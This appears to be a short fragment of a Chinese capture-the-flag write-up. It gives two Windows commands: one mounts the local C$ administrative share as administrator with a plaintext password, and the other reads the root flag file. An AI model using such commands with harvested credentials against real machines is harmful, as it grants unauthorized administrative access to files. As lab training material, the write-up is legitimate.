 # windows中挂载了linux

依旧需要用户名密码，不如直接winexe

```clike
net use \\127.0.0.1\c$ /user:administrator "u6!4ZwgwOM#^OBf#Nwnh"
type \\127.0.0.1\c$\users\administrator\desktop\root.txt
```
